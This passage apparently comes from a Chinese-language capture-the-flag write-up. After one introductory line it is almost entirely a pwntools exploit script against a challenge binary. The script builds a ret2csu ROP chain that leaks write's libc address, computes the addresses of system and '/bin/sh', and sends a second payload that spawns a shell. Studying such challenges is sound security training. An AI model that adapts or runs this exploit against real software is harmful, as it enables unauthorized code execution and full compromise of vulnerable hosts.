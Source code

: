 此时我们尝试运行攻击脚本

exp：

```bash
from pwn import *
from LibcSearcher import *

context.log_level = "debug"
#io = remote('pwn.node.game.sycsec.com', 30385)
io = process('./chal')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('./libc.so.6')
csu_end_addr=0x40132A
csu_front_addr=0x401310
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
    payload = b""
    payload += p64(csu_end_addr) 
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)
    payload += b'a' * 0x38  
    payload += p64(last)    
    return payload 
pop_rdi_ret = 0x401333 
write_got = elf.got['write']
write_plt = 0x401080#elf.plt['write']
ret_addr = 0x40101a
rsi = 0x401331
r131415 = 0x40132e

payload1 = b'a'*0x10+b'\x00'*8 + csu(0,1,1,elf.got['write'],0x30,write_got,0x4011FD)# + p64(rsi) + p64(write_got) + p64(0) + p64(write_plt) + p64(0x4011FD)

io.sendlineafter('backdoor!',payload1)

#write_addr = u64(io.recv(6).ljust(8,b"\x00"))
write_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(write_addr))


libc_base = write_addr - libc.sym["write"]
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))
#libc = LibcSearcher('write',write_addr)
#libc_base = write_addr - libc.dump('write')
#system = libc_base + libc.dump('system')
#binsh = libc_base + libc.dump('str_bin_sh')
#binsh = libc_base + libc.dump('str_bin_sh')
print(hex(libc_base))
print(hex(system))
print(hex(binsh))
payload2 = b"\x00".ljust(0x18,b'a') +p64(ret_addr)+ p64(pop_rdi_ret) +p64(binsh) + p64(system) #
#gdb.attach(io)
#pause()
io.sendlineafter('backdoor!',payload2)

```